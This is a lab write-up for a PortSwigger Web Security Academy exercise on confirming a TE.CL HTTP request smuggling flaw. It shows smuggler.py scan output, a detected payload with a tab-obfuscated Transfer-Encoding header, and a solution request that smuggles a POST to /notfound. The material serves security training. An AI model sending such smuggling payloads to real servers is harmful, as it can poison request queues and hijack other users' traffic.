


# [Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)

## Lab

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

## Detect TE.CL

- smuggler.py:

```bash
┌──(kali㉿kali)-[~/Documents/tools]
└─$ python smuggler/smuggler.py -u https://0ab1005b036b6358c4d79c5b000e0095.web-security-academy.net/

  ______                         _                                                                                                                                                                                                         
 / _____)                       | |                                                                                                                                                                                                        
( (____  ____  _   _  ____  ____| | _____  ____                                                                                                                                                                                            
 \____ \|    \| | | |/ _  |/ _  | || ___ |/ ___)                                                                                                                                                                                           
 _____) ) | | | |_| ( (_| ( (_| | || ____| |                                                                                                                                                                                               
(______/|_|_|_|____/ \___ |\___ |\_)_____)_|                                                                                                                                                                                               
                    (_____(_____|                                                                                                                                                                                                          
                                                                                                                                                                                                                                           
     @defparam                         v1.1                                                                                                                                                                                                
                                                                                                                                                                                                                                           
[+] URL        : https://0ab1005b036b6358c4d79c5b000e0095.web-security-academy.net/
[+] Method     : POST
[+] Endpoint   : /
[+] Configfile : default.py
[+] Timeout    : 5.0 seconds
[+] Cookies    : 1 (Appending to the attack)
[nameprefix1]  : OK (TECL: 0.96 - 200) (CLTE: 1.11 - 200)                                           
[tabprefix1]   : Potential TECL Issue Found - POST @ https://0ab1005b036b6358c4d79c5b000e0095.web-security-academy.net/ - default.py                                                                                                       
[CRITICAL]     : TECL Payload: /home/kali/Documents/tools/smuggler/payloads/https_0ab1005b036b6358c4d79c5b000e0095_web-security-academy_net_TECL_tabprefix1.txt URL: https://0ab1005b036b6358c4d79c5b000e0095.web-security-academy.net/ 

┌──(kali㉿kali)-[~/Documents/tools]
└─$ cat -A /home/kali/Documents/tools/smuggler/payloads/https_0ab1005b036b6358c4d79c5b000e0095_web-security-academy_net_TECL_tabprefix1.txt
POST /?cb=5166195647393371 HTTP/1.1^M$
Transfer-Encoding:^Ichunked^M$
Host: 0ab1005b036b6358c4d79c5b000e0095.web-security-academy.net^M$
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36^M$
Content-type: application/x-www-form-urlencoded; charset=UTF-8^M$
Content-Length: 6^M$
Cookie:  session=jhosiprerejfgeor4pwaakc4saym1xz8;^M$
^M$
0^M$
^M$
X 
```

- burpsuite active scan result:



- burpsuite `HTTP request smuggler` extension:



## Solutions

```http
POST / HTTP/1.1^M$
Host: 0a8800500315ad6fc206348a008b003c.web-security-academy.net^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 4^M$
tRANSFER-ENCODING: chunked^M$
^M$
30^M$
POST /notfound HTTP/1.1^M$
Content-Length: 20^M$
^M$
X^M$
0^M$
^M$
```

backend:

  ```http
  POST / HTTP/1.1^M$
  Host: 0a8800500315ad6fc206348a008b003c.web-security-academy.net^M$
  Content-Type: application/x-www-form-urlencoded^M$
  Content-Length: 4^M$
  tRANSFER-ENCODING: chunked^M$
  ^M$
  30^M$
  ```

  ```http
  POST /notfound HTTP/1.1^M$
  Content-Length: 20^M$
  ^M$
  X^M$
  0^M$
  ^M$
  ```
